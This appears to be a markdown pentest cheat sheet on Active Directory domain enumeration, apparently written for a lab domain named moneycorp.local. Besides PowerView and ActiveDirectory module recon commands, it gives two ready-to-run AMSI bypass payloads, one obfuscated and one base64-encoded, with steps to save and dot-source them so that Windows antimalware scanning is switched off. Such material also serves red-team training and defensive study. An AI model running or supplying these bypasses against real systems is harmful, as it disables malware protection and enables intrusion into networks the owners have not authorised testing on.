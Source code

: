 # Domain Enumeration


## Summary



```
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
$ADClass::GetCurrentDomain()
```

## AMSI Bypass

1. Create a file named amsibypass.ps1 and paste the following script.
2. Run by ". .\amsibypass.ps1".

```
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Base-64 to bypass AMSI

```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

### Get Current Domain

 - Get-NetDomain (PowerView.ps1)
 - Get-ADDomain (ActiveDirectory Module)

### Get object of another domain

 - Get-NetDomain -Domain moneycorp.local
 - Get-ADDomain -Identity moneycorp.local

### Get Domain SID for current domain

 - Get-DomainSID

### Get Domain policy for the current domain

 - Get-DomainPolicy
 - (Get-DomainPolicy)."system access"
 - (Get-DomainPolicy)."Kerberos policy"
